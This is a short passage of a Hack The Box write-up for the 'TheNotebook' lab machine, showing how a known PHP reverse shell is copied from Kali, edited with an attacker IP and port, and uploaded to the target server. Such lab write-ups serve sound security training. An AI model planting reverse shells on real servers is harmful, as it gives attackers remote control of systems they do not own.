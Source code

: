 ![Pasted image 20210501004308.png](../../zzz_res/attachments/Pasted_image_20210501004308.png)

A [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) was so copied, adjusted and uploaded on the server:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php rev.php

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ nano rev.php
...
$ip = '10.10.14.24';  // CHANGE THIS
$port = 10099;       // CHANGE THIS
...
```

![Pasted image 20210501004535.png](../../zzz_res/attachments/Pasted_image_20210501004535.png)
